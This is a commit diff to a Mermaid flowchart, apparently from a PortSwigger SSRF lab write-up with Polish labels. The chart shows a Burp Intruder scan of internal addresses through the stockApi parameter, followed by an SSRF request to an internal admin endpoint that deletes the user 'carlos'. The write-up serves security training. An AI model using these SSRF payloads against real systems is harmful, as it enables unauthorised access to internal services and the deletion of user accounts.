

One commit to DrCondor/portswigger-labs changed the diagram in ssrf/02-basic-ssrf-another-backend.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 26 other files, not shown here.

````diff
--- a/ssrf/02-basic-ssrf-another-backend.md
+++ b/ssrf/02-basic-ssrf-another-backend.md
@@ -66,9 +43,8 @@
 ```mermaid
 flowchart TD
-    A["Intruder Sniper: stockApi=http://192.168.0.§X§:8080/admin<br/>Numbers 1–255"] --> B[Sortuj po Status/Length]
-    B --> C["Payload 62: 200 / 3376 — reszta 500 / 2581"]
+    A["Intruder Sniper: ...192.168.0.§X§:8080/admin, Numbers 1–255"] --> B[Sortuj po Status/Length]
+    B --> C["Payload 62: 200/3376 — reszta 500/2581"]
     C --> D["Host = 192.168.0.62:8080"]
-    D --> E["Repeater: stockApi=http://192.168.0.62:8080/admin/delete?username=carlos"]
-    E --> F["302 Found, Location: .../admin = skasowany"]
-    F --> G[Solved]
+    D --> E["Repeater: .../192.168.0.62:8080/admin/delete?username=carlos"]
+    E --> F["302 Found → Solved"]
 ```
````
